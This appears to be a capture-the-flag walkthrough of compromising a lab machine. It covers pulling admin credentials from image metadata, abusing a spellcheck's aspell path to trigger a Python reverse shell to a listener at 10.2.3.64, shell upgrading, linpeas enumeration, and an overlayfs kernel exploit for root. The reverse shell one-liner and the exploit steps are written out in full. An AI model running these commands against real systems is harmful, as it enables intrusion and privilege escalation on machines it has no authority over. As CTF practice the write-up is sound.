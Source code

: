 Lokking into doaks profile and checking his files we find a secret message that points to `/dir007key/for-007.jpg`. Grab that file and use `exiftool` These are the admin creds

We can decode with `echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d` which gives us `admin:xWinter1995x!`

Login to user. So there is a vulnerability within aspell which we can use python to call for a reverse shell when a user uses the spellcheck feature ont he tinyMCE editor. Searching in the settings for `aspell` brings up the Path to aspell which we can edit with to send us a shell. `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.3.64",6676));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`

After setting up a `rlwrap` we can goto the site blogs and try to add a new entry and then use spellcheck to get a reverse shell on the system.

Must remember to modify the spell engine as well to PSpellShell

After getting reverse shell upgrade shell a bit

1. python3 -c "import pty;pty.spawn('/bin/bash')"
2. Press 'Ctrl' + 'Z' to background the program.
3. stty raw -echo
4. fg
5. export TERM=xterm-256color

Download linpeas onto the system and run for enumeration of the system.

We have a vulnerable linux kernal 3.13.0-32-generic. Which means this sustemis vvulnerable to the overlayfs exploit. 

I have exploited this a few times before so this time I am going to see if I can use metasploit to get a root shell. Shouldn't be an issue I don't think. Well it was. GCC is not installed so metasploit is unable to complete the exploit. Back in the syustem get the ofs.c to the target. replace `gcc` with `cc` in the exploit `sed -i "s/gcc/cc/g" 37292.c`. then compile with `cc`. `cc ofs.c -o ofs` and run the exploit with `./ofs` and we win.

